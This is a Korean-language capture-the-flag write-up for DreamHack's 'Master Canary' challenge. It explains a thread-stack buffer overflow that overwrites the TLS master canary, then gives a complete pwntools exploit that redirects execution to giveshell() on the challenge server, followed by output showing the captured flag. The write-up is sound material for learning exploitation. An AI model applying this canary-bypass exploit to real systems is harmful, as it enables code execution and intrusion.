 # [DreamHack] Master Canary

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Master Canary에서 실습하는 문제입니다.
>
> Release: [Master Canary.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549980/Master.Canary.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/161211538-cd41c230-171d-4769-848e-ab3313feae33.png)

## Analysis

```c
int main() {
  pthread_t thread_t;

  init();

  if (pthread_create(&thread_t, NULL, (void *)thread_routine, NULL) < 0) {
    perror("thread create error:");
    exit(0);
  }
  pthread_join(thread_t, 0);
  return 0;
}
```

쓰레드를 생성하고, `thread_routine()`을 호출한다.

```c
int read_bytes (char *buf, int len) {
  int idx = 0;
  int read_len = 0;

  for (idx = 0; idx < len; idx++) {
    int ret;
    ret = read(0, buf+idx, 1);
    if (ret < 0) {
      return read_len; 
    }
    read_len ++;
  }

  return read_len;
}

void thread_routine() {
  char buf[256];
  int size = 0;
  printf("Size: ");
  scanf("%d", &size);
  printf("Data: ");
  //read(0, buf, size);
  read_bytes(buf, size);
}
```

`thread_routine()`에서는 `buf`에 원하는 크기만큼 데이터를 입력할 수 있어 BOF가 발생한다. `thread_routine()`의 return address를 `giveshell()`로 덮기 위해서는 canary를 우회해야 한다.

![image](https://user-images.githubusercontent.com/102066383/161216266-b70c433c-3280-4ce0-b646-b91045368146.png)

생성된 쓰레드의 스택과 master canary는 같은 메모리 영역에 위치한다. 따라서 BOF를 이용하여 master canary를 원하는 값으로 변조할 수 있다. `thread_routine()`의 canary도 같은 값으로 덮어쓰면 canary 검사를 통과할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/mc_thread')
else:
    r = remote('host1.dreamhack.games', 17086)

giveshell = 0x400877  # giveshell()

payload = b'a' * 0x118  # dummy
payload += p64(giveshell)
payload = payload.ljust(0x950, b'a')

r.sendlineafter('Size: ', str(0x950))
r.sendafter('Data: ', payload)

r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 17086: Done
[*] Switching to interactive mode
$ cat flag
DH{7a8a433f0b4738471fc40dca9d2d9831}
```